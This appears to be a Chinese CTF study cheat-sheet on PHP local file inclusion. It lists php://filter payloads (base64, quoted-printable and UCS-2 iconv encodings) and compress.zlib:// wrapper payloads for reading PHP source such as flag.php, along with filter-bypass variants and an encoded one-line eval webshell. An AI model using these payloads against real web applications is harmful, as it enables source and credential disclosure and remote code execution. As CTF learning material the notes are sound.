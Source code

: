 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
php://filter
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以，绕过一些包含字符匹配。
php://filter/read=convert.base64-encode/index/resource=flag
php://filter/ctfshow/resource=flag.php
```
其他编码方式
```
file=php://filter/resource=flag.php
php://filter/ctfshow/resource=flag.php
file=php://filter/read=convert.quoted-printable-encode/resource=/var/www/html/flag.php


UCS-2BE编码：
file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php

编码
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?


解码：
$encoded_string = // 这里应该是以 UCS-2LE 编码的原始字符串
$decoded_string = iconv("UCS-2LE", "UCS-2BE", $encoded_string);
echo $decoded_string;
```

^
## **compress.zlib包含文件php源代码**
```
?file=compress.zlib://flag.php
```
